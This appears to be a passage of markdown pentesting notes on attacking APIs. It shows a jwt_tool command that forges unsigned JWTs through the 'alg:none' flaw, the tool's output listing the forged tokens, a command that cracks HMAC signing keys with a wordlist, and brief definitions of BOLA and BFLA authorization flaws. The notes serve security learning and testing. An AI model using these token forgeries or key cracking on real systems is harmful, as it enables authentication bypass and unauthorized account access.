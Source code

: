   ```
  Command: python3 jwt_tool.py JWT_TOKEN -X CODE (See help to view exploit codes)

  Example (alg:none):

  python3 jwt_tool.py eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0aGlhZ28xMjNAdGVzdGUuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2OTk5OTI5NzksImV4cCI6MTcwMDU5Nzc3OX0.mz98JpdCmHmoQ583nU7LNjeKl47K04v5usznUoX0rtwL6JRLCwAF2hohspqgQhDSgq7n0781jrTFHAm5Yys4LGzZH_RtmKTKHFeqzgk-MqRDa5EX7a_lpSYMiSCTMXpsFs7CQ6PWB-LFo2koq-bPPW996vDVZ9bwQqVScQJGxfWhVKyPwCCDQAJ8o6Sqf63FTiXCg2g-Wgx3KTB7oVRHV8uVUvE6AE4LMdzNq8jYKD7E9DTUaSTdLM6b6n2kc5KkZ7bwo0QbMNAVkHv5DmdxeqrxFjUO2mDohiCzmPROSqH2LhghmX1eDtWJtyhANijiaie7yeG8ByMr7j3K9te_bw -X a  

  Original JWT:

  jwttool_4fefe0858d52b40bd74a0c2b1f6d3a18 - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
  (This will only be valid on unpatched implementations of JWT.)                                                                                                                               
  [+] eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0aGlhZ28xMjNAdGVzdGUuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2OTk5OTI5NzksImV4cCI6MTcwMDU5Nzc3OX0.
  jwttool_9fa407885e79c5e222c1b5ec7b0fe98b - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
  (This will only be valid on unpatched implementations of JWT.)                                                                                                                               
  [+] eyJhbGciOiJOb25lIn0.eyJzdWIiOiJ0aGlhZ28xMjNAdGVzdGUuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2OTk5OTI5NzksImV4cCI6MTcwMDU5Nzc3OX0.
  jwttool_105741cdda8795cb0c7799910d6a4a9b - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
  (This will only be valid on unpatched implementations of JWT.)                                                                                                                               
  [+] eyJhbGciOiJOT05FIn0.eyJzdWIiOiJ0aGlhZ28xMjNAdGVzdGUuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2OTk5OTI5NzksImV4cCI6MTcwMDU5Nzc3OX0.
  jwttool_4cf66d99e9f6c5c7a187c7f1a8b8sa74c - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
  (This will only be valid on unpatched implementations of JWT.)                                                                                                                               
  [+] eyJhbGciOiJuT25FIn0.eyJzdWIiOiJ0aGlhZ28xMjNAdGVzdGUuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2OTk5OTI5NzksImV4cCI6MTcwMDU5Nzc3OX0.
  ```

  * jwt_tool - Crack HMAC Token
  ```
  python3 jwt_tool.py JWT_TOKEN -C -d WORDLIST
  ```

## Exploiting API Authorization

  * Broken Object Level Authorization (BOLA)
  * Broken Function Level Authorization (BFLA)

Where BOLA is all about accessing resources that do not belong to you, BFLA is all about performing unauthorized actions. BFLA vulnerabilities are common for requests that perform actions of other users. These requests could be lateral actions or escalated actions. Lateral actions are requests that perform actions of users that are the same role or privilege level. Escalated actions are requests that perform actions that are of an escalated role like an administrator.
